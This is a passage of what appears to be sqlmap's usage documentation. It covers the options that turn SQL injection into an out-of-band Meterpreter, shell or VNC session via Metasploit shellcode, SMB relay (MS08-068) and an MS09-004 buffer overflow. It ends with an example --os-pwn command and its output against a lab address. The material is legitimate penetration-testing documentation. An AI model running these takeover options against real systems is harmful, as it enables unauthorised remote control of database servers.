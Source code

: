 * ASP
* ASP.NET
* JSP
* PHP

### Out-of-band stateful connection: Meterpreter & friends

Switches and options: `--os-pwn`, `--os-smbrelay`, `--os-bof`, `--priv-esc`, `--msf-path` and `--tmp-path`

It is possible to establish an **out-of-band stateful TCP connection between the attacker machine and the database server** underlying operating system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. This channel can be an interactive command prompt, a Meterpreter session or a graphical user interface (VNC) session as per user's choice. 

sqlmap relies on Metasploit to create the shellcode and implements four different techniques to execute it on the database server. These techniques are:

* Database **in-memory execution of the Metasploit's shellcode** via sqlmap own user-defined function `sys_bineval()`. Supported on MySQL and PostgreSQL - switch `--os-pwn`.
* Upload and execution of a Metasploit's **stand-alone payload stager** via sqlmap own user-defined function `sys_exec()` on MySQL and PostgreSQL or via `xp_cmdshell()` on Microsoft SQL Server - switch `--os-pwn`.
* Execution of Metasploit's shellcode by performing a **SMB reflection attack** ([MS08-068](http://www.microsoft.com/technet/security/Bulletin/MS08-068.mspx)) with a UNC path request from the database server to
the attacker's machine where the Metasploit `smb_relay` server exploit listens. Supported when running sqlmap with high privileges (`uid=0`) on Linux/Unix and the target DBMS runs as Administrator on Windows - switch `--os-smbrelay`.
* Database in-memory execution of the Metasploit's shellcode by exploiting **Microsoft SQL Server 2000 and 2005
`sp_replwritetovarbin` stored procedure heap-based buffer overflow** ([MS09-004](http://www.microsoft.com/technet/security/bulletin/ms09-004.mspx)). sqlmap has its own exploit to trigger the
vulnerability with automatic DEP memory protection bypass, but it relies on Metasploit to generate the shellcode to get executed upon successful exploitation - switch `--os-bof`.

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857) and in the
slide deck [Expanding the control over the operating system from the database](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database).

Example against a MySQL target:

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
```